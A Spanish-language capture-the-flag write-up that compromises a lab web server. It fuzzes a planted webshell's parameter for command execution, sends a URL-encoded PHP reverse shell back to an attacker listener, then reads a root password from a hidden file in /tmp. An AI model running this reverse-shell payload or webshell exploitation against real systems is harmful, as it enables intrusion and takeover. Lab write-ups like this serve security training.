

## 1. Reconocimiento Inicial con Nmap

```bash
nmap -sC -sV --open 172.17.0.2
```

 **Resultado del escaneo** 
```
80/tcp open  http    Apache httpd 2.4.57 ((Debian))  
|_http-server-header: Apache/2.4.57 (Debian)  
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)  
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La salida de `nmap` indica que el puerto 80 está abierto y que un servidor web Apache httpd versión 2.4.57 (Debian) está en ejecución. El título de la página web es "Academia de Inglés (Inglis Academi)", lo que nos da una pista sobre el tipo de contenido alojado. Además, se observa una nota en el ejercicio que dice: "Guardo un secretito en /tmp ;)", lo que sugiere que hay información relevante en el directorio `/tmp` del sistema, posiblemente para la fase de escalada de privilegios.

## 2. Enumeración de Contenido Web con Gobuster

Dado que se ha identificado un servidor web, el siguiente paso es enumerar directorios y archivos ocultos o no enlazados. 

```bash
gobuster dir -u http://172.17.0.2 -w /home/eduard/WordList/directories.txt -x php,txt,html,php.bak
```

 **Resultado de Gobuster**
```
/index.html           (Status: 200) [Size: 2510]  
/shell.php            (Status: 500) [Size: 0]  
/warning.html         (Status: 200) [Size: 315]
```

Revela varios archivos interesantes:

*   `/index.html`: La página principal del sitio web.
*   `/shell.php`: Un archivo PHP que devuelve un código de estado `500` (Error Interno del Servidor) y un tamaño de 0 bytes. Esto es una fuerte indicación de que podría ser una webshell, pero que requiere un parámetro específico para funcionar correctamente.
*   `/warning.html`: Un archivo HTML que contiene un mensaje relevante.

Al acceder a `warning.html`, se encuentra el siguiente mensaje:

> Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...

Esta es una pista crucial que confirma la existencia de una webshell (`shell.php`) y que su funcionamiento depende de un parámetro desconocido. El objetivo ahora es descubrir este parámetro.

---
Antes de atacar shell.php,  descargamos las imágenes con wget `htttp://<ip>` y usamos steghide y exiftool en ellas en busca de información oculta, pero sin obtener resultado.


### 3. Fuzzing de Parámetros con Wfuzz
El siguiente paso lógico es realizar un fuzzing de parámetros en `shell.php` para identificar el correcto que activa la funcionalidad de la webshell. 

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

**Resultado**: "parameter".

El resultado del `wfuzz` devuelve 2 líneas, a diferencia de otros intentos que devuelven 0 líneas. Esto indica que `shell.php?parameter=id` está ejecutando el comando `id` y devolviendo su salida. Esto confirma que se ha logrado una Ejecución Remota de Comandos (RCE).


## 4. Obtención de una Reverse Shell

Una vez que se ha confirmado la RCE, el siguiente paso es obtener una `reverse shell` para tener una conexión interactiva y estable con la máquina objetivo. Una `reverse shell` es una conexión iniciada desde la máquina objetivo hacia la máquina del atacante, lo que a menudo evade los firewalls que bloquean las conexiones entrantes.

### Preparación del Listener en la Máquina Atacante

En la máquina del atacante, se configura un `listener` utilizando `netcat` para esperar la conexión entrante de la `reverse shell`.

```bash
nc -lnvp 443
```


### Generación y Ejecución de la PHP Reverse Shell

Se busca una `PHP reverse shell` adecuada en recursos como `https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/`. La plantilla utilizada es:

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Se ajusta la IP y el puerto a los de la máquina atacante (`172.17.0.1` y `443` respectivamente):

```php
php -r '$sock=fsockopen("172.17.0.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
*   `fsockopen("172.17.0.1",443)`: Abre un socket TCP y se conecta a la IP y puerto especificados de la máquina atacante.
*   `exec("/bin/sh -i <&3 >&3 2>&3")`: Ejecuta una shell interactiva (`/bin/sh -i`) y redirige la entrada, salida y error estándar a través del socket abierto, estableciendo así la `reverse shell`.

Finalmente, esta cadena PHP se codifica en URL para ser inyectada a través del parámetro `parameter` de `shell.php`:

```
http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen(%22172.17.0.1%22%2C443)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Al acceder a esta URL en el navegador (o a través de `curl`), el navegador se quedará "colgado" o mostrará un error, lo que es una señal de que la `reverse shell` se ha ejecutado y la conexión se ha establecido con el `listener` de `netcat` en la máquina atacante. Se verifica el usuario actual con `whoami`:

```bash
$ whoami  
# www-data
```

## 5. Escalada de Privilegios

La pista inicial "Guardo un secretito en /tmp ;)" es fundamental para la escalada de privilegios. 

Se navega al directorio `/tmp`:

```bash
cd /tmp
```

Un `ls` normal no muestra nada, lo que sugiere que el archivo es oculto. Por lo que usamos la opción `-a`

```bash
ls -a
```

Revela el archivo oculto `.secret.txt`:

```
drwxrwxrwt 1 root root  6 Aug  1 17:33 .  
drwxr-xr-x 1 root root 39 Aug  1 17:33 ..  
-rw-r--r-- 1 root root 21 Apr 12  2024 .secret.txt
```

Finalmente, se lee el contenido de `.secret.txt` para obtener la contraseña:

```bash
$ cat .secret.txt  
contraseñaderoot123
```

La contraseña `contraseñaderoot123` es la clave para escalar a `root`.

### Escalada a Root 

Con la contraseña de `root`, se utiliza el comando `su` (substitute user) para cambiar al usuario `root`.

```bash
$ su -
Password: contraseñaderoot123
```

*   `su -`: El guion (`-`) después de `su` indica que se debe iniciar una shell de login para el usuario `root`, lo que significa que se cargará el entorno completo del usuario `root` (incluyendo su PATH y variables de entorno), lo cual es importante para asegurar que todos los comandos de `root` estén disponibles.


```bash
whoami  
root
```

Esto confirma que la escalada de privilegios ha sido exitosa y se tiene control total sobre el sistema como usuario `root`.
